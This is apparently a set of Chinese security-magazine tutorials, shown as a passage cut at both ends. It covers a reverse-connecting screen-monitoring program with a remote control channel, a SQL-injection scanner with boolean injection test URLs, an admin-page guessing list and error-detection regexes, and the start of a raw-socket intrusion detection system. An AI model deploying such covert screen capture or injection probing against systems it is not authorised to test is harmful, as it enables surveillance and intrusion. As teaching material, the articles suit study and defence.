    LPBITMAPFILEHEADER lpBitmapFileHeader = (LPBITMAPFILEHEADER)(g_pFileData + 0);
    unsigned long biAlign = (g_biWidth * 3 + 3) / 4 * 4;
    unsigned long bmSize = g_biHeight * biAlign;
    // 图像矩阵坐标与像素数据
    int x, y, cur;
    unsigned char tempR, tempG, tempB;
    float fTempBufforDisp;
    short MaxPixVal, MinPixVal, Diff;
    short **spOriginData, **spTransData0, **spTransData1;

    // 分配图像小波变换所用的数据空间
    spOriginData = new short*[g_biHeight];
    spTransData0 = new short*[g_biHeight];
    spTransData1 = new short*[g_biHeight];

    for (int i = 0; i < g_biHeight; i++) {
        spOriginData[i] = new short[g_biWidth];
        spTransData0[i] = new short[g_biWidth];
        spTransData1[i] = new short[g_biWidth];
    }

    // 创建图像小波变换类
    CWvtTrans Trans;

    // 从设备缓存中获取原始图像数据
    for (y = 0; y < (int)g_biHeight; y++) {
        for (x = 0; x < (int)g_biWidth; x++) {
            cur = y * biAlign + 3 * x;
            tempB = g_pData[cur];
            tempG = g_pData[cur + 1];
            tempR = g_pData[cur + 2];
            spOriginData[g_biHeight - 1 - y][x] = (short)(0.3 * tempR + 0.59 * tempG + 0.11 * tempB);
        }
    }

    // 完成一次图像小波变换
    Trans.DWT_Once(spOriginData, spTransData0, spTransData1, g_biHeight, g_biHeight/2, g_biWidth, g_biWidth/2, 1, 1, 4, 4);
    MaxPixVal = spTransData1[0][0];
    MinPixVal = spTransData1[0][0];
    for (y = 0; y < (int)g_biHeight; y++) {
        // ...
    }
}
```

```cpp
for (x = 0; x < (int)g_biWidth; x++)
{
    if (MaxPixVal < spTransData1[y][x])
        MaxPixVal = spTransData1[y][x];
    if (MinPixVal > spTransData1[y][x])
        MinPixVal = spTransData1[y][x];
}
Diff = MaxPixVal - MinPixVal;
unsigned long biAlign1;
biAlign1 = (g_biWidth / 2 * 3 + 3) / 4 * 4;
for (y = 0; y < (int)g_biHeight / 2; y++)
{
    for (x = 0; x < (int)g_biWidth / 2; x++)
    {
        // 归一化到 0~255
        fTempBufforDisp = spTransData1[g_biHeight / 2 - 1 - y][x];
        fTempBufforDisp -= MinPixVal;
        fTempBufforDisp *= 255;
        fTempBufforDisp /= Diff;
        cur = y * biAlign1 + 3 * x;
        g_pData[cur] = (unsigned char)fTempBufforDisp;
        g_pData[cur + 1] = (unsigned char)fTempBufforDisp;
        g_pData[cur + 2] = (unsigned char)fTempBufforDisp;
        g_lpBitmapInfoHeader->biWidth = g_biWidth / 2;
        g_lpBitmapInfoHeader->biHeight = g_biHeight / 2;
    }
}
ByteOfPic = (g_biWidth / 2 * 3 + 3) / 4 * 4 * (g_biHeight / 2);
for (i = 0; i < g_biHeight; i++)
{
    delete[] spOriginData[i];
    delete[] spTransData0[i];
    delete[] spTransData1[i];
}
delete[] spOriginData;
delete[] spTransData0;
delete[] spTransData1;
```

图1

```cpp
::SaveBitmapToFile(&dcScreen, rect, "Screen.bmp");
// 将当前屏幕保存为位图文件
OpenFile("Screen.bmp");
GetPro();
::YaSuo();  // 小波变换压缩图像
::SaveBitmap();
::InitSocket();
if (ConnectToServer() == FALSE)
{
    free(g_pFileData);
    delete[] g_pDataSave;
    return;
}
DWORD lenthUncompress = g_pData - g_pFileData + ByteOfPic;
DWORD lenthCompress = (lenthUncompress + 12) * 1.1;
BYTE* pDataCompress = new BYTE[lenthCompress];
compress(pDataCompress, &lenthCompress, g_pFileData, lenthUncompress);
SendPic(s, (char*)pDataCompress, lenthUncompress, lenthCompress, 0);
delete[] pDataCompress;
// 第一帧发送完毕，开始处理第二帧
::SaveBits(&dcScreen, rect);
```

经过上述处理过程压缩后的图像数据为源图像数据经一层小波变换后的 LL 频率层部分。为了避免程序界面消息循环的阻塞，我们将视频采集发送主函数放入一个新的线程中，视频采集发送线程流程如图1所示。

```cpp
void StartSend()
{
    CRect rect(0, 0, 400, 300);
    // 定义需要监控的屏幕区域
    CDC dcScreen;
    dcScreen.CreateDC("DISPLAY", NULL, NULL, NULL);
}
```

```cpp
// 打开第二帧图像并获取其属性
::YaSuo();      // 使用小波变换压缩第二帧图像
::XorBitmap();  // 该图像与第一帧 XOR 操作
compress(pDataCompress, &lenthCompress, g_pData, lenthUncompress);
SendPic(s, (char*)pDataCompress, lenthUncompress, lenthCompress, 1);

while (1)
{
    lenthCompress = (lenthUncompress + 12) * 1.1;
    ::BitmapRestore();
    ::SaveBits(&dcScreen, rect);
    ::YaSuo();
    ::XorBitmap();
    compress(pDataCompress, &lenthCompress, g_pData, lenthUncompress);
    SendPic(s, (char*)pDataCompress, lenthUncompress, lenthCompress, 2);
    ::Sleep(100);
}

delete[] pDataCompress;
ExitSocket();
free(g_pFileData);
delete[] g_pDataSave;
```

客户端程序应该能正确分割各帧图像数据。由以上分析，我们可以得到视频监控程序流程如图3所示。

因为第一帧数据包含位图信息头数据，故处理时第一帧数据需要单独处理，处理函数如下。

```cpp
void RecvFrameZero(SOCKET sock, DWORD lenSrc, DWORD lenDes)
{
    BYTE* pCompress = new BYTE[lenDes];
    if (g_pFileData == NULL)
        g_pFileData = new BYTE[lenSrc];
    DWORD lenthUncompress = lenSrc;
    int ret = recv(sock, (char*)pCompress, lenDes, 0);
    while (ret != lenDes)
    {
        ret += recv(sock, (char*)(pCompress + ret), lenDes - ret, 0);
    }
    uncompress(g_pFileData, &lenthUncompress, pCompress, lenDes);
    delete[] pCompress;
    if (lenthUncompress != lenSrc)
    {
        ::AfxMessageBox("Uncompress Data Error!");
        return;
    }
    ::GetPro();  // 获取图像的各种属性
    Fresh();     // 显示接收到的视频帧
}
```

Huffman 编码的实现程序中使用了 ZLIB 动态链接库。ZLIB 是一套开放源代码的压缩解码函数库。编译 ZLIB 链接库时，首先从 www.zlib.org 下载 ZLIB 源程序，用 Visual C++ 打开 ZLIB 目录下 projects\visualc6\zlib.dsw 工作区，打开菜单“Build|Set Active Configuration”配置需要编译出来的版本，再选择“Build|Clean”，最后按 F7 就可编译出需要的 DLL 版本了。最后在程序中 main() 函数中调用 AfxBeginThread 启动视频采集发送函数线程即可。

## 视频监控端的实现

为了编写视频接收端程序，我们需要先分析数据采集发送端程序发送的数据包结构。因为第一帧数据需要包含位图信息头数据，故需要分开处理，数据包结构如图2所示。

| FrameId | SrcLen | DesLen | 数据内容 |
|---|---|---|---|
| FrameId | SrcLen | DesLen | 第1帧图像原始数据 |

*第一次图像数据发送格式*

| FrameId | SrcLen | DesLen | 数据内容 |
|---|---|---|---|
| FrameId | SrcLen | DesLen | 该帧图像数据与前一帧异或数据 |

*其他帧图像数据发送格式（图2）*

因为传输是基于套接字数据流的，所以视频监…

其他视频帧接收处理函数如下。

```cpp
void RecvFrameOther(SOCKET sock, DWORD lenSrc, DWORD lenDes, DWORD id)
{
    BYTE* pCompress = new BYTE[lenDes];
    if (g_pDataSave == NULL)
        g_pDataSave = new BYTE[lenSrc];
    int ret = recv(sock, (char*)pCompress, lenDes, 0);
    while (ret != lenDes)
    {
        ret += recv(sock, (char*)(pCompress + ret), lenDes - ret, 0);
    }
    // 按该帧数据实际长度接收该帧数据
    DWORD lenUncompress = lenSrc;
    ret = uncompress(g_pDataSave, &lenUncompress, pCompress, lenDes);

    delete[] pCompress;
    XorBitmap();
    // 因为接收到的数据为该帧与前帧异或后的数据，故须调用该函数还原数据
    Fresh();
}
```

视频监控端主函数实现代码如下。

```cpp
void StartListen()
{
    InitSocket();
    sockaddr_in addrServer = {0};
    addrServer.sin_family = AF_INET;
    addrServer.sin_port = htons(8088);
    addrServer.sin_addr.S_un.S_addr = 0;
    s = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    bind(s, (sockaddr*)&addrServer, sizeof(addrServer));
    // 等待连接请求
    listen(s, 5);
    sockaddr_in addrClient = {0};
    int lenClient = sizeof(addrClient);
    SOCKET sClient = accept(s, (sockaddr*)&addrClient, &lenClient);

    DWORD lenRecv = 0;
    char* pBufferRecv = new char[sizeof(PicHeader)];
LOOP:
    int ret = recv(sClient, pBufferRecv, sizeof(PicHeader), 0);
    while (ret != sizeof(PicHeader)) {
        ret += recv(sClient, (char*)(pBufferRecv + ret), sizeof(PicHeader) - ret, 0);
    }
    if (((PicHeader*)pBufferRecv)->FrameId == 0) {
        RecvFrameZero(sClient, ((PicHeader*)pBufferRecv)->SrcLen, ((PicHeader*)pBufferRecv)->DesLen);
    } else {
        RecvFrameOther(sClient, ((PicHeader*)pBufferRecv)->SrcLen, ((PicHeader*)pBufferRecv)->DesLen, ((PicHeader*)pBufferRecv)->FrameId);
    }
    Sleep(1);
    goto LOOP;
    delete[] pBufferRecv;
}
```

视频监控程序编译连接后的运行界面如图4所示。需要注意的是，以上程序完成了视频图像压缩、传送、接收、解码、显示等过程。对于客户端控制指令的发送，我又建立了一个新的 TCP 通道。即客户端通过 8088 端口接收服务端发送来的屏幕图像数据，通过 8089 端口向服务端发送控制命令。

图4

关于 8089 的通信过程我就不讲解了，大家可以参考源程序，注释已经写得很清楚了。

最后再说一下程序的测试方法。首先运行客户端程序，因为服务端是反向连接的，所以注意一定要先运行客户端，否则不会成功。然后修改服务端的 CONFIG.INI 配置文件，将“Ip=192.168.0.110”后面的 IP 地址修改为客户端程序运行所在主机的 IP 地址，最后运行服务端程序就可实现对目标主机屏幕的监控了。通过点击 U（监视的屏幕区域上移）、D（监视的屏幕区域下移）、L（监视的屏幕区域左移）、R（监视的屏幕区域右移）即可实现监控图像区域的调整，程序中调整偏移量为 100 像素，大家可以根据情况修改。监控效果如图5所示。

图5

本人经过实验数据分析得出，以上压缩算法有着极高的图像压缩率，程序可以在 Internet 中流畅地监视目标主机屏幕。但是缺点也是显而易见的，即小波变换带来的较大的计算量，不过通过在小波处理函数每个循环之后添加 Sleep() 函数，可以有效地解决程序 CPU 使用率较高的问题。最后希望我提供的算法及源程序能给大家一些启迪和帮助。

> 【本文涉及的代码（程序），请见随书光盘！】

## 自己动手编写SQL注入漏洞扫描器

文／图 张东辉 袁野

目前网上已经有很多 SQL 注入工具，例如 NBSI、CASI、啊D、HDSI、WED、Domain、冰舞、CSC 等，功能也相当强大，但是它们共有的一个缺点是不能对某个或多个网站进行完整全面的扫描。如果能扫描的话，也仅是对某个网站的某个页面进行扫描，而忽视了其他页面的扫描。为了能够对一个或多个网站的安全性进行准确的评估，需要对其所有页面做完整全面的扫描，这也是本人开发这个工具的初衷！

这样一些信息：站点 URL、数据库类型、扫描页面总数、安全页面数、泄漏敏感信息页面数、可注入页面数、泄漏敏感信息的页面列表、注入点列表，等等。

#### 功能需求分析

本工具开发语言使用 C#；IDE 使用 Microsoft Visual Studio 2005；引用 MSHTML（COM 组件）。在编写这个工具之前，我们首先来分析一下其应该具备的功能。总的来说，我认为至少应该具备以下几项功能。

- 1) 支持单个／批量网站扫描

单个网站扫描功能是必备的，批量网站扫描是为了能够对输入的网站列表挨个进行扫描，以避免手工多次输入的麻烦。

- 2) 支持 HTML 格式扫描报告的生成

“生成 HTML 格式报告”似乎已成为软件的一种时尚，便于浏览扫描过程及结果，并便于扩展和发布。

- 3) 多线程扫描

由于扫描的网站可能不止一个，而且针对一个网站，扫描的页面也不止一个，因此采用多线程技术可以大大提高程序性能，从而缩短完成扫描所需要的时间。

- 4) 获取尽可能多的信息

对一个可访问的网站扫描结束后，应该至少得到站点 URL、数据库类型、页面统计、可注入页面和敏感信息泄漏页面等信息。

#### 实现思路及关键技术

具备了以上功能，这样一个工具基本上就可以用来检测网站是否存在 SQL 注入漏洞了。我们知道，在扫描的结果中，如果某个页面存在注入漏洞，那就说明整个站点就是可注入的站点；如果某个页面泄漏了敏感信息，那就说明整个站点就是敏感信息泄漏的站点。所谓敏感信息，包括 Web 服务器信息、数据库信息、开发语言信息等。因此，我们可以把网站的安全评估分为 5 个等级，如图1所示。

| 安全等级 | 说明 | 备注 |
|---|---|---|
| 0级 | 站点无法访问 | —— |
| 1级 | 不可注入，不泄漏敏感信息 | 安全 |
| 2级 | 不可注入，泄漏敏感信息 | 存在安全隐患 |
| 3级 | 可注入，不泄漏敏感信息 | 危险 |
| 4级 | 可注入，泄漏敏感信息 | 非常危险 |

图1

#### 全站扫描过程

那么，对输入的一个网站应该如何扫描呢？这是一个核心问题。考虑这个问题，我们首先需要抽象出网站的基本结构。如果把首页当成一个根节点的话，由首页能够链接到的网页作为这个根节点的子节点，则这个网站的结构应该可以认为是一棵由首页生成的链接树；但是事实并不是这样，因为下层的子节点也可以链接到首页或中间层节点，而且可能网站中还存在一些所有页面都无法链接到的孤立节点，例如管理员后台登录页面，等等。而这些页面也是应该扫描的，只是我们难以知道这些页面的 URL，所以只能靠猜测了，如图2所示。无论怎样，我们可以把扫描过程分为两部分，一是由首页生成的树的扫描；二是对孤立节点的扫描。

的一个页面，然后再把搜索出的节点放回这个队列中。具体的算法描述如下。

图2

- 1. 向该网站的首页（RootUrl）发出 HTTP 请求，对返回的 htmlcode 进行分析，提取出第1层可能注入的 URL 列表，把它们放在 ArrayList 中，并标记为“未处理”，K=1。
- 2. 从 ArrayList 中遍历所有标记为“未处理”的 ArrayList 项（URL），首先把这一项标记成“已处理”，然后对这个 URL 进行扫描，检测各种需要的数据（可否注入、是否泄漏敏感信息等），最后向这个 URL 发出 HTTP 请求，对返回的 htmlcode 分析，提取出第 K++ 层可能的注入点列表，筛选出与 ArrayList 中不同的项加入到 ArrayList！
- 3. 如果 ArrayList 中还有“未处理”的项，则程序继续搜索扫描，跳到步骤2去！

在上面的步骤2中，可以使用到多线程技术，检测数据的部分可以交给子线程去做，主线程继续遍历所有“未处理”的项。

在处理孤立节点时，采用穷举测试的方法。本文使用一个单独的可配置的站点隐藏页面搜索列表，里边包含了大量的隐藏页面常用的相对路径和页面名称的排列组合，如 index_admin.asp、admin/index.asp、admin/default.asp、admin/manage.asp、admin/login.asp、manage.asp、manage_index.asp、index_manage.asp 等，利用这个字典可以对隐藏的孤立点进行尝试性搜索。

## 从返回的HTML字符串中提取所有URL链接

另一个关键的问题是，如何从网站返回的 HTML 字符串中提取所有 URL 链接。当然，首先要向网站发出一个请求，这个请求需要指明请求的 URL 以及请求的方式 Method（GET/POST）。

```csharp
// 向给定的url发出http请求，接受返回的html
public string GetResponseHtmlCode(string url, string method)
{
    // 创建一个http请求
    WebRequest wr = WebRequest.Create(url);
    ...
}
```

```csharp
wr.Method = method;
wr.ContentType = "application/x-www-form-urlencoded";
wr.ContentLength = 0;
string re = "";
try
{
    WebResponse result = wr.GetResponse();
    Stream ReceiveStream = result.GetResponseStream();
    Byte[] read = new Byte[512];
    int bytes = ReceiveStream.Read(read, 0, 512);
    re = "";
    while (bytes > 0)
    {
        // 编码处理...
        re += encode.GetString(read, 0, bytes);
        bytes = ReceiveStream.Read(read, 0, 512);
    }
}
catch (Exception e)
{
    re = e.Message;
}
return re;
```

有了网站返回的 HTML 字符串后，下面的任务就是提取其中所有的 URL，并放到扫描队列中去了。

传统方法是在返回的 HTML 字符串中查找标签属性，例如“`<a href="http://www.abc.com/def/ghi/jkl.asp?id=123">`”，这个方法有很多缺点。首先是提取出的 URL 可能是绝对路径的，也可能是相对路径的，不统一。在广度优先扫描过程中判断回环时比较困难，因为每个相对的 URL 都对应有一个绝对的路径为基准。最后判断两个 URL 是否相同时，已经丢失了这个基准。不想丢失的话，只有对每个 URL 保存它的基准，这样有点啰嗦，浪费空间，还不一定省时间；其次是如果单纯识别标签的话，可能会漏掉一个 URL，因为 URL 也可能作为网页内容出现；第三是程序扫描这个 URL 时，需要二次加工，必须转成绝对路径形式的 URL。

我的办法是使用自定义的 URL 正则表达式来全文匹配 URL 链接，并将相对路径转换为绝对路径。

我先用常见的 URL 作为例子来说明，比如 http://www.abc.com/def/ghi/jkl.asp?id=123。我把 URL 分成了如下的 3 个部分。

- 1) http://www.abc.com/，出现 0 次或 1 次，正...则表达式为“`(http://([A-Za-z0-9_.]+/))?`”。

2）`def/ghi/` 出现 0 次或多次，正则表达式为“`([(/\w*/)|(\../)|(\.\./)])*`”。

3）`jkl.asp?id=123`，出现 1 次，正则表达式为“`((\w+((\.aspx)|(\.php)|(\.jsp)|(\.asp))/((\?)|(\w+=([A-Za-z0-9\u0391-\uFFE5_.]+)&?)+)?)|(\w+\?((\w+=([A-Za-z0-9\u0391-\uFFE5_.]+)&?)+)))`”。

综合起来，URL 的正则表达式就是如下的形式。

```csharp
string strRegex = @"(http://([A-Za-z0-9_.]+/))?(([\w*/)|(\../)]*)((\w+((\.aspx)|(\.php)|(\.jsp)|(\.asp))/((\?)|(\w+=([A-Za-z0-9\u0391-\uFFE5_.]+)&?)+)?)|(\w+\?((\w+=([A-Za-z0-9\u0391-\uFFE5_.]+)&?)+))))";
Regex r = new Regex(strRegex, RegexOptions.IgnoreCase);
MatchCollection m = r.Matches(htmlCode);
```

之后我们再对寻找出的每一个 URL 做一次转换，不管是相对路径的还是绝对路径的都转一次。

```csharp
// 改绝对路径方式的 URL
Uri urlNew = new Uri(relativeLocation, strNew);
```

我的方法的优点是避免了传统方法的缺点，不遗漏，灵活性强，容易扩展。

另外值得一提的是，对提取出的 URL 还应该过滤一下，过滤掉那些域名不是该站点的 URL，还要过滤掉和扫描队列中类似的 URL。例如扫描队列中已经出现了“http://www.xxx.com/example.php?id=1”，如果又提取出了“http://www.xxx.com/example.php?id=2”，那么这个 URL 就没有必要再放进扫描队列中了。

## 如何判断一个网页可否注入

从前两步搜索出的页面，这里应该如何判断是否可注入呢？这是 SQL 注入方面的知识了。我们知道，一个页面是否可注入有两种情况：一是把提交的参数作为数字型参数，二是看成字符型参数。这两种情况应该分别测试，任何一种情况可以注入，都表示这个页面是可注入的。

数字型注入点将把用户输入的数据当成数字处理，这时非数字的字符将被脚本简单地解释成字符，对这种网页的测试最简单。  
数字型“与真”测试 `http://www.xxx.com/example.php?id=4 and 1=1`  
数字型“与非”测试 `http://www.xxx.com/example.php?id=4 and 1=2`

字符型注入点将把用户输入的数据放进一对单引号里。为了“跳出”这对单引号，可以使用单引号加注释符号的方法进行渗透测试。  

字符型“与真”测试 `http://www.xxx.com/example.php?id=4' and 1=1#`  
字符型“与非”测试 `http://www.xxx.com/example.php?id=4' and 1=2#`

测试用例中的单引号用于和脚本中第一个单引号配对，而第二个单引号将被注释符号“#”屏蔽，避免插入 SQL 语句时引起的执行错误。当然也可以使用无注释符号“#”的测试用例。  
字符型“与真”测试（无注释符号）：`http://www.xxx.com/example.php?id=4' and '1'='1`  
字符型“与非”测试（无注释符号）：`http://www.xxx.com/example.php?id=4' and '1'='2`

## 如何判断一个页面是否泄漏敏感信息

正常提交一个页面的请求得到的返回一般是不会泄漏敏感信息的，只有在畸形的参数输入下网站才可能暴露出一些敏感信息，可能是 Web 服务器的，也可能是数据库的或开发语言的，而这些信息对于手工注入的高手来说是很有用的，所以说泄漏敏感信息的网站是存在安全隐患的。

最简单的办法是直接在请求的参数最后加一个引号，然后对这个加引号的 URL 向网站提出请求，看看返回的 HTML 字符串中是否包含一些常见的敏感信息必有的字符串。

例如，IIS 服务器如果错误提示选项开启时，在发送带单引号的测试请求后，如果得到类似下面这样的错误报告：

`Microsoft JET Database Engine 错误 '80040c14'`

我们就可以知道网站使用的是 Access 数据库，并且通过 JET 引擎连接数据库，而不是通过 ODBC。

```text
Microsoft OLE DB Provider for SQL Server 错误 80040e14
字符串之前没有闭合的引号。
/showspcial.asp, 行13
```

则可知道 Web 系统后台使用的是 SQL Server 数据库。

当 APACHE 服务器的错误提示选项开启时，如果在错误报告中出现“MySQL”关键字，如

```text
Database error: Invalid SQL: select * from news_news where sectype=18 order by id desc limit 6,30
MySQL Error: 1064 (You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'limit 0,30' at line 1)
Session halted.
```

或者则可判定后台数据库为 MySQL 数据库。

```java
// 检查某个可能的注入点 InjectionPoint 是否泄漏敏感信息
public Boolean CanGetSensitiveInfo(String urlstr)
{
    Boolean CanGetSensitive = false;
    String HtmlCode_url_with_comma = GetResponseHtmlCode(urlstr + "'", "POST");
    string strSensitiveCheck = @"(Database error)|(MySQL Error)|(Microsoft JET Database Engine)|(Microsoft JET)|(Microsoft OLE DB Provider for SQL Server)|(error in your SQL syntax)|(Apache Tomcat)|(SQLException)|(内部服务器错误)|(Warning)|(Source Error)|(Exception)";
    Regex r = new Regex(strSensitiveCheck, RegexOptions.IgnoreCase);
    MatchCollection m = r.Matches(HtmlCode_url_with_comma);
    if (m.Count > 0)
        CanGetSensitive = true;
    return CanGetSensitive;
}
```


#### 工具测试及使用

我自己在本机搭建了一个网站，然后用我这个工具扫描，发现还真有漏洞，把所有有漏洞的网页都扫描出来了，并且把泄漏敏感信息的网页 URL 也报告出来了，真是太兴奋了！如图 3 和图 4 所示。

在进行批量扫描时，使用的时间基本上和扫描单个网站的时间差不多，我想这主要是因为使用了多线程扫描的缘故。因为多个网站之间，扫描操作不存在数据相关等问题，所以使用多线程可以大大缩短完成扫描所需的时间。

#### 总结

杂志中附有本文讨论的 SQL 注入漏洞扫描工具程序源码，源码中已经做好注释，大家直接看源码问题不大，应该能看懂。另外，由于开发时间不长，目前只修改到了三版，定有不妥之处，还望大家不断改进，使之成为一款真正可称为工具的免费软件！

【本文涉及的代码（程序），请见随书光盘】


## 开源始终……（主标题）
## 入侵检测系统

文／图 yuandonghe

网络入侵检测系统（NIDS）是网络安全管理常用的安全设备之一。各大安全厂商都有自己的 IDS（入侵检测系统）产品，如启明星辰的天阙，绿盟的冰之眼，天融信的 TOPSENTRY 等，被评为 2006 年百大安全工具第三名的 SNORT 也是一个开源的 NIDS。除开源的 SNORT 外，各大商用的网络入侵检测系统一般都非常昂贵，而且部署也比较麻烦，一般适合用于较为庞大的网络环境，如 IDC 和大型的企业应用网络等。

在安全管理过程中，我们发现一些网络环境也有使用入侵检测系统的需求，比如一个大型网络环境中的子网络部分。因为大型网络入侵检测系统比较昂贵，部署也比较麻烦，因此我们只能在骨干网络上应用，在核心网络上检测安全事件。由于各子网络在地址分配上一般都使用 NAT，这样我们在核心的入侵检测系统上检测到一些安全事件，如病毒木马等的时候，只能定位到某个子网络，而不能精确地定位到子网络上哪台机器出了问题。一般在这种情况下，我们不可能把入侵检测系统再放到网络中去，只能到出问题的子网络上使用一些抓包工具，如 Sniffer、WireShare 等来抓包分析，以期找到问题出处。这些抓包工具一般都用来进行协议分析，而不是专门的安全事件分析工具，并不能很好地识别安全事件，只能靠工程师自身的知识来对网络中的数据包进行分析，以定位事件来源。如果安全事件比较多，安全工程师的工作负担会很大。

网络 IDS 的主要原理就是对网络传输的数据包进行内容和行为检查。那我们能不能用简单的方法实现一个轻量级的网络 IDS 以填补安全管理中的空白呢？为了解决这个问题，我们先要明确这个轻量级 IDS 的设计目标，然后我们再根据这些目标来寻找实现的方法。

- 我们的 IDS 要实现的目标有：
  1. 基于 Windows 平台，部署和使用方便，不用安装额外的插件，能即接即用，方便放到笔记本电脑上携带至工作地点；
  2. 适用于办公网络，网络环境不太复杂，检测的安全事件主要为病毒和木马；
  3. 基于对安全事件的模式匹配来检测安全事件，即像杀毒软件一样，有安全事件的规则库，可自定义检测规则，能对检测规则进行方便的修改和升级。如果一个数据包内容和检测规则定义的内容匹配，则把这个数据包定义为攻击数据包；
  4. 检测广度为单 TCP 和 UDP 数据包，只做到单包检测；
  5. 检测深度为 TCP 和 UDP 的 payload 部分，即数据包的数据段；
  6. 实时检测，适用于网络流量为 10MBPS 的小型网络或者单机；
  7. 有简单的日志记录功能，能记录并保存检测到的安全事件。

如果我们的 IDS 达到了上面这些设计目标，那么我们在日常安全管理过程中碰到的问题就可以得到有效的解决。

#### 开发环境

在 Windows 环境下进行开发，首选的集成开发环境是 VC++。我们使用 6.0 版本来开发 IDS，它有强大的开发库，为开发底层的 Windows 程序提供了便捷的方法。IDS 一个主要的功能就是进行网络数据包的捕获。在 Windows 平台下实现网络数据包的捕获有两种方法，一种是 WinPcap 开发包，一种就是使用 WinSocket 建立原始套接字。WinPcap 提供了功能强大的网络数据包捕获接口，但是用它开发应用程序后，必须在程序运行的系统上安装 WinPcap 工具包，才能使程序正常工作，这和我们的设计目标不符；而用 Socket 编写的程序能在普遍的环境中直接使用，不需要做任何额外的工作。因此，我们选用原始套接字来实现数据包捕获过程。

#### 原理和流程

Common Intrusion Detection Framework（CIDF）是现阶段 IDS 设计的标准模型，几乎所有的 IDS 产品都是按照这个模型进行设计和开发的。它以模块设计的方法将一个入侵检测系统分为以下组件：事件产生器（Event generators）、事件分析器（Event analyzers）、响应单元（Response units）和事件数据库（Event databases）。

事件产生器是产生入侵检测系统初始分析数据的模块，在我们设计的 IDS 中，它表现为对网络数据包的捕获，也就是建立一个原始套接字对经过网卡的所有 IP 数据包进行抓取，送到下一步的程序中进行分析，它是入侵检测系统的数据输入端。事件分析器是对上一步抓取的数据包进行模式匹配分析的模块。它对数据包和载入系统中的规则进行匹配分析，如果匹配成功，则把该数据包视为一个攻击数据包，产生一次攻击事件。响应单元是在事件分析模块检测到安全事件时，做出相应的响应动作的模块。其响应动作有发出警报、发送邮件、记录安全事件等，用于通知用户有安全事件发生。事件数据库是保存安全事件记录的模块，也就是一个安全事件日志，以便日后对安全事件记录进行查询和处理，它是入侵检测系统的输出端。

我们根据 CIDF 设计模型对我们的 IDS 进行模块化设计，并把它的工作流程化，做出其工作流程图，如图 1 所示。


## 数据包捕获的实现

网卡的工作模式有两种，一种是普通模式，它只能接收发往网卡本地址和广播地址的数据包。另外一种是混杂模式，在这种模式下，它将接收所有到达的数据包。因此，作为网络入侵检测系统，它应把接收数据包的网卡设为混杂状态，然后把主网络设备上的数据包流量镜像到该网卡上，使入侵检测系统能捕获和分析网络传输的所有数据包。在 Windows 下，我们用原始套接字来实现入侵检测系统的这个功能。要使用原始套接字，我们要在程序中加入 WinSocket 头文件 `#include <winsock2.h>`。和正常的 Socket 编程差不多，我们建立一个原始套接字的过程如下。

- 1）初始化一个原始套接字。

```c
SOCKET nSock = WSASocket(AF_INET, SOCK_RAW,
    IPPROTO_IP, NULL, 0, WSA_FLAG_OVERLAPPED);
```

和建立一般的 Socket 不同的是，WSASocket 函数的第二个参数是 `SOCK_RAW`，表明建立的套接字是原始套接字。

- 2）获得本机网卡的 IP 地址，并绑定到原始套接字上。

```c
SOCKADDR_IN if0;
if0.sin_addr.s_addr = GetLocalIP();
if0.sin_family = AF_INET;
if0.sin_port = htons(0);
bind(nSock, (SOCKADDR*)&if0, sizeof(if0));
```

- 3）用 `WSAIoctl` 函数把该网卡设为混杂模式，即 `SIO_RCVALL`。

```c
WSAIoctl(nSock, SIO_RCVALL, &dwBufferInLen, sizeof(dwBufferInLen),
         NULL, 0, &dwBytesReturned, NULL, NULL);
```

这样，我们就建立了一个原始套接字，并把它绑定到了网卡上。我们用这个原始套接字可以捕获到经过网卡的所有数据包。原始套接字本身带有数据缓冲功能，只须在程序中建立一个单数据包长度的临时缓冲空间，使用 recv 函数在原始套接字的缓冲区取一个数据包，放到程序的临时缓冲区内，把它交给我们的事件分析模块对它进行分析。

由于网络数据包最大长度为 65536 字节，而使用 recv 函数每次接收一个数据包，那么接收数据包的缓冲区也设置为 65536 字节：`char pBuffer = (char*)malloc(MAX_PACKET_SIZE);`。接收到数据包后，我们把它送到协议分析和事件分析的流程中。

模式匹配入侵检测方法的实质是在数据包字节串上寻找匹配攻击特征的关键字节串，其主要过程如下。

## 协议分析的实现

- 1）分析网络上的每一个数据包是否具有某种攻击特征。  
- 2）从网络数据包的包头开始和攻击特征比较。  
- 3）如果比较结果相同，则检测到一个可能的攻击。  
- 4）如果比较结果不同，则从网络数据包中下一个字节位置重新开始比较。  
- 5）直到检测到攻击或网络数据包中的所有字节匹配完毕，一个攻击特征匹配结束。  
- 6）对于每一个攻击特征，重复 2）开始的比较，直到每一个攻击特征匹配完毕，对数据包的匹配完毕。

用原始套接字捕获的数据包在形式上只是一段无序的字节流，因此用传统的模式匹配来对数据包字节流进行分析有很大的弊端。这种分析方法计算量是很大的，它每秒要求的比较量为：特征数据攻击特征字节数 × 网络数据包字节数 × 每秒数据包数量 × 攻击特征数量……这个计算量是 CPU 很难承受的。

解决这个问题的方法有两个，一是对无序的数据包字节流进行协议分析；二是优化检测特征，定义高效的数据包检测规则。

我们知道，数据包字节流虽然在形式上是无序的，但它是具有一定的逻辑结构的，它的每个数据位都有特定意义，所以我们可以按照其逻辑结构对数据包进行分类处理，也就是一个协议分析的过程。

原始套接字接收的数据包是一个 IP 数据包，IP 数据包由 IP 报头和 IP 数据段组成。以下是一个用 C 语言表示的 IP 报头的逻辑组成结构。

```c
typedef struct ip_header // IP 包结构
{
    unsigned char h_verlen;
    unsigned char tos;
    unsigned short total_len;
    unsigned short ident;
    unsigned short frag_and_flags;
    unsigned char ttl;
    unsigned char proto;
    unsigned short checksum;
    unsigned int sourceIp;
    unsigned int destIp;
} IPHeader;
```

缓冲区接到一个数据包的字节流后，我们先把它复制到一个临时空间 temp 里，然后把它转换为一个 IP 报头结构，在程序中表示为：`IPHeader *pipheader = (IPHeader*)temp`。对 temp 作一个 C 语言中的强制类型转换，这样我们就可以像操作一个结构一样对数据包进行操作了，比如要取得该数据包的源地址可以通过 `pipheader->sourceIp;`。

IP 报头的 proto 位表明了此 IP 包的下一层协议，那么可以通过该位对数据包进行进一步的分析。我们只关心两种协议 UDP 和 TCP，当 `proto = IPPROTO_TCP` 时，表明该数据包为 TCP 数据包；当 `proto = IPPROTO_UDP` 时，则表明该数据包为 UDP 数据包。

段部分根据 proto 的值不同有不同的内容，如果 proto 指定这个包为 TCP 数据包，在数据段的开头包含一个 TCP 报头；如果 proto 指定这个包为 UDP 数据包，则在数据段的开头包含一个 UDP 报头。TCP 和 UDP 的报头结构可以用 C 语言描述如下。

```c
